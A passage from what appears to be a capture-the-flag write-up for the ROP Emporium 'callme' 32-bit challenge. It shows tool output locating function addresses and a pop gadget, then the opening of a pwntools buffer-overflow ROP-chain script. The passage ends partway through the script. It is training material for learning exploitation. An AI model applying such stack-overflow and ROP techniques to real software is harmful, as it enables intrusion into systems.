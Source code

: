We see the three `callme()` functions that we have to call in order. `pwnme()` still has the same old buffer overflow vulnerability. This time though, we have to jump to three functions one after another, ***and*** call them with the correct arguments.

The way to do that is by initially setting up the stack so we call `callme_one()` with the arguments `(1, 2, 3)`, then we need to return into a gadget that will pop those three arguments off of the stack. The gadget will then return into `callme_two()` and proceed to do the same thing. I think it's easier to just do it rather than try to explain it.

First, we need the addresses to the three functions.
```shell
~/Documents/ropemporium/callme/32callme# rabin2 -i callme32
[Imports]
Num  Vaddr       Bind      Type Name
...
   4 0x080485b0  GLOBAL    FUNC callme_three
   5 0x080485c0  GLOBAL    FUNC callme_one
...
  12 0x08048620  GLOBAL    FUNC callme_two
...
```

Then we need a gadget that pops three values off of the stack before returning.
```shell
~/Documents/ropemporium/callme/32callme# ropper -f callme32                                                                                                                                            root@kali
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%



Gadgets
=======


...
0x080488a9: pop esi; pop edi; pop ebp; ret; 
...

101 gadgets found
```

Now, we just have to do the exploit step by step.
```python
  1 #!/usr/bin/env python
  2 
  3 from pwn import *
  4 
  5 context.log_level = 'critical'
  6 elf = ELF("./callme32")
  7 
  8 callme_one_addr = p32(0x080485c0)
  9 callme_two_addr = p32(0x08048620)
 10 callme_three_addr = p32(0x080485b0)
 11 pop_three_addr = p32(0x080488a9)
 12 
 13 payload = "A"*44 # First overflow the buffer until EIP
 14 
 15 payload += callme_one_addr # Jump to callme_one()
 16 payload += pop_three_addr # callme_one() returns to the gadget, the gadget pops 1,2,3 off the stack
 17 payload += p32(0x1) # Argument 1 for callme_one()
 18 payload += p32(0x2) # Argument 2 for callme_one()
 19 payload += p32(0x3) # Argument 3 for callme_one()
```